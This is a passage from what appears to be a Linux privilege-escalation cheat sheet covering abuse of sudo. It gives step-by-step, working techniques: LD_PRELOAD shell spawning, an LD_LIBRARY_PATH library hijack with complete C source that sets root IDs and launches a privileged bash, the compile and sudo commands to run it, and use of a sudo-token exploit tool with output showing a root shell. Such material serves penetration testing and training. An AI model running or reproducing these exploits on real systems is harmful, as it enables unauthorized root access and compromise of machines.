 &#x20; 3\. Execute any binary along with the LD\_PRELOAD shared object to spawn a shell : `sudo LD_PRELOAD=</path/to/malicious/shell.so> <program>`

### **LD\_LIBRARY\_PATH**&#x20;

**LD\_LIBRARY\_PATH** provides a list of directories where shared libraries are searched for first.

Run `ldd` against the any program that you can execute as `sudo` to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (ex. `libcrypt.so.1`) using the code located at `/home/user/tools/sudo/library_path.c`:

```c
/* Library_path.c */

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Then compile the program with `gcc`.

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

Run program using `sudo`, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp` (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp program-name-here
```

### sudo\_inject

Using [https://github.com/nongiach/sudo\_inject](https://github.com/nongiach/sudo\_inject):

```bash
$ sudo $command
[sudo] password for user:    
# Press Ctrl+c since you don't have the password, which creates an invalid sudo token
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```
